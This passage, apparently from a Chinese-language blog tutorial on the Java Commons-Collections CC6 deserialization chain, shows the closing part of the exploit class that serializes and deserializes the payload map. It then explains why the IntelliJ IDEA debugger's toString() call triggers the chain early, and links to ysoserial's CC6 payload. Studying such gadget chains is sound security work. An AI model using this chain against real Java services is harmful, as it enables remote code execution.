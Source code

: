 ```java=
        factoryField.set(lazyMap,chainedTransformer);

        serialize(expMap);
        unserialize("ser.bin");


    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }


}

```

### 解决前文的小坑



- 还记得前文中我说的这个问题吗

> 这里在 27 行，也就是 `HashMap<Object, Object> expMap = new HashMap<>();` 这里打断点，会发现直接 26 行也就是 `TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");` 就弹计算器了，不要着急，这里是一个 IDEA 的小坑，后续会讲。

#### 原因分析

因为在 IDEA 进行 debug 调试的时候，为了展示对象的集合，会自动调用 `toString()` 方法，所以在创建 `TiedMapEntry` 的时候，就自动调用了 `getValue()` 最终将链子走完，然后弹出计算器。

![](https://i.imgur.com/uhNPTRJ.png)


#### 解决

在 IDEA 的偏好设置当中如图修改即可。

![](https://i.imgur.com/6jTPqxX.png)



> 无语了，为啥我修不好。。最可恶的是 idea 的toString 即使设置了断点也不会被触发。。。

> 破案了，上面那个也要取消勾选

![](https://i.imgur.com/1GCc6jv.png)







### 参考链接

[芜风师傅](https://drun1baby.github.io/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/)

[ysoserial-CC6](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)